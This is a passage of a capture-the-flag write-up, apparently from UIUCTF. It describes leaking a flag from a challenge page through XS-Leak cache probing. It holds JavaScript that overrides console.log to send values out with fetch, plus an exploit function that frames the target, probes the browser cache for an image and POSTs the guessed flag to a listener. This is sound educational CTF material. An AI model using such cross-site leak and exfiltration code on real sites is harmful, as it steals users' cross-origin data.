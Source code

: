 My testing flag showed up in the console, so now it should be a simple case of binding to the console and sending the output out... right?

```js
console.log = (value) => {
	fetch("?value=" + value);
}
```

Nope. `<iframe>`s all get their own execution context! This crossed off even more opportunities -- **there was no way our JS could affect their JS.**

The only thing remaining was the `output.innerHTML` call in `search()`. It loads an image, but we can't listen for outbound image requests.

We're missing something.

Completely stumped, I posted my progress in our team chat -- I've gotten some stuff done, and I have a neat outline of the whole attack, so if my teammates know some tricks, then this flag should be obtainable.

    [04:10] Seraphin: can you do a cache xs search
    <...>
    [04:12] Seraphin: this fits well since u can delete the cache of y.png and check after
    [04:12] zkldi: can i see if an image is cached?
    [04:12] Seraphin: https://xsleaks.com/docs/attacks/cache-probing/

That's our missing piece! We could use **cache probing** to determine whether `y.png` was loaded, and then fuzz the flag out!

[Here's the linked article, It's a great resource for cache probing](https://xsleaks.com/docs/attacks/cache-probing/).

## Probe the Flag

With the newfound knowledge that we can probe the cache for `y.png`, we can combine this into an attack!

The above article contained a useful example script for checking whether something was cached or not. From that, let's just write a script that uses their `ifCached` function.

```js
async function exploit() {
	// ?uiuctf{ ...
	let str = window.location.search.substring(1);

	document.getElementById("content").innerHTML = "";
	// boot an iframe
	document.getElementById("content").innerHTML = ("<iframe src=https://chal.yana.wtf#" + str + "></iframe>");

	// Wait a second to ensure the iframe loaded properly.
	await new Promise((resolve) => setTimeout(() => resolve(), 1000));

	const isCached = await ifCached("https://sigpwny.com/uiuctf/y.png");

	if (isCached) {
		// send our data out to a listening port.
		await fetch("/listener", {method: "POST", headers: {"Content-Type": "application/json" }, body: JSON.stringify({isCached, str})});
	}
}
```
